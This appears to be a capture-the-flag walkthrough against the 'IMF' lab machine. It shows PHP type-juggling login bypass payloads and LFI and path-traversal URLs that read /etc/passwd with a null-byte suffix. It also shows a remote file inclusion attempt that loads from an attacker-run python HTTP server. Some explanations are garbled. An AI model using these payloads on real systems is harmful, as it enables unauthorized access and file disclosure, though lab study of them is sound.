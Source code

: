 ```php
Cookie: PHPSESSID=rftk9b1ducfunqjmrks8bcfb04
Connection: close

user=rmichaels&pass[]=test
```

this can be explote it because is doing a comparison, 
```bash 
user=rmichaels&pass[]=
```


another very strong point to mention is that there's another common struggling bypass called Json byPass truggling which consist in add true in password fiel example 

```bash

{
user= rmichaels

pass= true 

}
```
that's how we will made in another scenario 

now if we stop intercepting the connection we will watch another pannel 

to stop it, we have to  ```proxy``` > ```intercept``` > ```turn off``` 


output from port 80

IMF CMS
Menu: Home | Upload Report | Disavowed list | Logout

Welcome to the IMF Administration.

take a look of the URL 

```http://192.168.100.52/imfadministrator/cms.php?pagename=home```

is aiming to resources of the directory that is hosting the page because of ```=home```

we can try a LFI to visualize content from the localhost

```http://192.168.100.52/imfadministrator/cms.php?pagename=/etc/passwd```

we can try a Directory Path traversal to reaload a route from the local host

```http://192.168.100.52/imfadministrator/cms.php?pagename=../../../../.../../../../etc/passwd```

we can try to add a null session to check if it's concateneting a extentions php or something like that

```http://192.168.100.52/imfadministrator/cms.php?pagename=../../../../.../../../../etc/passwd%00``` with the null session what we would do would be to become independent ```%00```


we can try a RFI

http://192.168.100.52/imfadministrator/cms.php?pagename=http://192.168.111.53/test

and from our machine we have to stay listening at python3 -m http.server 80

```http://192.168.100.52/imfadministrator/cms.php?pagename=home```



to check if we receive data we can stay listing from I ens33 using wireShark 

```